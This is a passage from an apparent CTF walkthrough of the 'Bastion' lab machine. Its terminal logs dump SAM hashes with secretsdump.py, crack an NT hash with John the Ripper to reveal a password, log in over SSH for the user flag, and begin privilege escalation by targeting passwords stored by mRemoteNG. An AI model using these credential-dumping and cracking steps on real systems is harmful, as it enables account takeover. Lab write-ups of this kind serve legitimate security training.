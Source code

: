 	
11. root@kali:/tmp/bastio/empty/Windows/System32/config£ secretsdump.py -sam SAM -system SYSTEM LOCAL
	Impacket v0.9.22.dev1+20200629.145357.5d4ad6cc - Copyright 2020 SecureAuth Corporation
	
	[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
	[*] Cleaning up... 
	
12. root@kali:/tmp/bastio# john --format=NT /tmp/bastio/hash --wordlist=/usr/share/wordlists/rockyou.txt
	Using default input encoding: UTF-8
	Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
	No password hashes left to crack (see FAQ)
	
	1 password hash cracked, 0 left
	
13. root@kali:/tmp/bastio# john --format=NT /tmp/bastio/hash --show
	Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

14. root@kali:/tmp/bastio/empty/Windows/System32/config£ ssh L4mpje@10.10.10.134
	L4mpje@10.10.10.134's password: 
	Microsoft Windows [Version 10.0.14393]                                                                                          
	(c) 2016 Microsoft Corporation. All rights reserved.                                                                            
	
	l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
	bastion\l4mpje        
	
	User.txt : 9bfe57d5c3309db3a151772f9d86c6cd



## Privilege Escalation
12. l4mpje@BASTION C:\>whoami /priv                                                                                                                                                                       
	                                                                                                                                                                                                      
	PRIVILEGES INFORMATION                                                                                                                                                                                
	----------------------                                                                                                                                                                                
	                                                                                                                                                                                                      
	Privilege Name                Description                    State                                                                                                                                    
	============================= ============================== =======                                                                                                                                  
	SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                                                                                                  
	SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
	
	Noticed that we have mRemoteNG , which stores encrypted password in a XML file
	http://cosine-security.blogspot.com/2011/06/stealing-password-from-mremote.html
	       
	
13. l4mpje@BASTION C:\Program Files (x86)>dir                                                                                                                                                             
	 Volume in drive C has no label.                                                                                                                                                                      
	 Volume Serial Number is 0CB3-C487                                                                                                                                                                    
	                                                                                                                                                                                                      
	 Directory of C:\Program Files (x86)                                                                                                                                                                  
	                                                                                                                                                                                                      